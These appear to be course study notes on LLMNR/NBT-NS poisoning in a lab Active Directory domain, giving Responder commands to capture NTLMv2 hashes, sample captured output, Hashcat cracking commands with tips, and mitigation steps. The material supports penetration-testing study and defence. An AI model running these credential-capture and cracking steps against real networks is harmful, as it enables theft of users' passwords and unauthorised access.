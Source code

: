 ```yaml
---

# 🕵️‍♂️ Catching Credentials: LLMNR Poisoning Exploit

---
```


## 📝 **Summary**

LLMNR (Link-Local Multicast Name Resolution) is used when DNS fails to resolve hostnames, making it vulnerable to poisoning attacks. The attack involves using tools like Responder to capture NTLMv2 hashes from network traffic. Once captured, these hashes can be cracked using Hashcat. The main defense is to disable LLMNR/NBT-NS or enforce strong password policies and network controls.

---

## 🛠️ **Detailed Notes**

### **LLMNR Poisoning Steps**

1. **Run Responder**:
    - **Objective**: Capture LLMNR and NBT-NS requests on the network.
    - **Command**:
        
        ```bash
        sudo responder -I tun0 -dwp
        
        ```
        
    - **Context**: Run Responder during high-traffic times, like mornings or after lunch, when users are logging in or accessing resources. Responder listens for traffic and captures hashes when it detects LLMNR or NBT-NS requests.
2. **Simulate Traffic**:
    - **Objective**: Trigger LLMNR requests by accessing a file share pointing to the attacker’s IP.
    - **Setup**: In the lab environment, use two Windows machines (SPIDERMAN and PUNISHER) connected to the domain controller (MARVEL).
    - **Action**: From the PUNISHER machine, access a file share pointing to the attacker's IP (192.168.164.128):
        
        ```bash
        \\\\192.168.164.128
        
        ```
        
3. **Capture Hashes with Responder**:
    - **Objective**: Capture NTLMv2 hashes when the file share request is made.
    - **Ensure** you are on the same subnet by checking your IP:
        
        ```bash
        ip a
        
        ```
        
    - **Run Responder** on the attacker's machine:
        
        ```bash
        sudo responder -I eth0 -wPv
        
        ```
        
    - **Output Example**:
        
        ```
        [SMB] NTLMv2-SSP Username : MARVEL\\fcastle
        [SMB] NTLMv2-SSP Hash     : fcastle::MARVEL:6608abd7ff...
        
        ```
        
4. **Cracking Captured Hashes**:
    - **Objective**: Use Hashcat to crack the NTLMv2 hash.
    - **Prepare**: Create a directory and save the captured hashes in a file (hashes.txt).
    - **Command to crack**:
        
        ```bash
        hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt --show
        
        ```
        
    - **Example Output**:
        
        ```
        FCASTLE::MARVEL:7623ad517de05459:Password1
        
        ```
        
    - **Note**: Hashcat uses CPU by default. Running it on a VM can be slow. For faster results, use GPU-accelerated cracking.
5. **Advanced Hash Cracking Options**:
    - If Hashcat struggles on a VM, try running it with `-force`:
        
        ```bash
        hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt --force
        
        ```
        
    - You can also apply rules to modify the wordlist and try more complex passwords:
        
        ```bash
        hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt -r OneRule
        
        ```
        

### **LLMNR Mitigation**

- **Disable LLMNR**:
    - Path: `Local Computer Policy > Computer Configuration > Administrative Templates > Network > DNS Client`
    - Enable "Turn OFF Multicast Name Resolution."
- **Disable NBT-NS**:
    - Path: `Network Connections > Adapter Properties > TCP/IPv4 > Advanced > WINS tab`
    - Select "Disable NetBIOS over TCP/IP."
- **If LLMNR/NBT-NS cannot be disabled**:
    - Implement **Network Access Control**.
    - Enforce **strong passwords** (e.g., >14 characters).

---

## 🔠 **Abbreviations & Definitions**

- **LLMNR**: Link-Local Multicast Name Resolution, a protocol for hostname resolution when DNS fails.
- **NBT-NS**: NetBIOS Name Service, an older method for resolving hostnames.
- **NTLMv2**: New Technology LAN Manager version 2, a suite of security protocols for authentication.
- **SMB**: Server Message Block, a network protocol for file sharing and communication.

---

## 🚨 **Critical Mentions & Exam Traps**

- **🚨 Responder should be run during times of high traffic** to maximize the chance of capturing LLMNR requests.
- **🚨 LLMNR/NBT-NS is often enabled by default on many networks**, so always check if it's active when targeting a network.
- **💡 NTLMv2 hashes change every time they’re captured**, but Hashcat’s pot file stores previously cracked hashes for faster future cracks.
- **💡 Password strength is key**—stronger passwords reduce the likelihood of cracking captured hashes, so expect password complexity to be a common countermeasure.
- **🚨 For real-world applications, explore advanced wordlists and rules** for hash cracking. Rockyou.txt is a good baseline but may not be sufficient in professional environments.

---

### 💡 **Tips for Faster Hash Cracking**

- **Use GPU**: Running Hashcat on a GPU-enabled machine significantly increases the speed of cracking.
- **Use Optimized Mode**: Add `O` to Hashcat commands for optimized cracking speeds:
    
    ```bash
    hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt -O
    
    ```
    

---